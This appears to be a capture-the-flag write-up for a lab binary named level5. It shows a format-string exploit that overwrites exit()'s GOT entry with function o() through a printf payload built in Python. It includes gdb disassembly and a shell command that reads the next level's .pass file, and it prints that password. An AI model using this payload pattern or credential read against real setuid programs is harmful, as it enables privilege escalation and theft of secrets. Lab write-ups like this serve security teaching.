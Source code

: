 ```sh
$> ls -l ~
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

```sh
$> python -c 'print("A"*4 + "%p "*6)' | ./level5 
AAAA0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x25207025 0x70252070
```
As we can see, the 4th pointer displayed is injectable.  

We first tried to inject change the buffer itself but it didn't worked.  
We then thought about changing `exit()` address to call `o()`.  

We first retrieved the address of `exit()`:

```sh
$> gdb -q level5
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:    0x080483d6
```

We have the address of `exit()` (`0x8049838`).  
Then we'll retrieve the address of `o()` to get the padding needed:

```sh
(gdb) info functions o
[...]
0x080484a4  o
```

We then need to convert the address in decimal (`0x080484a4` is `134513828`) and remove 4 bytes for the address of `exit`.  

We can finally replace the address of `exit()` with the address of `o()`:

```sh
$> python -c 'print("\x38\x98\x04\x08" + "%134513824d" + "%4$n")' > /tmp/payload

$> cat /tmp/payload - | ./level5
[...]
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

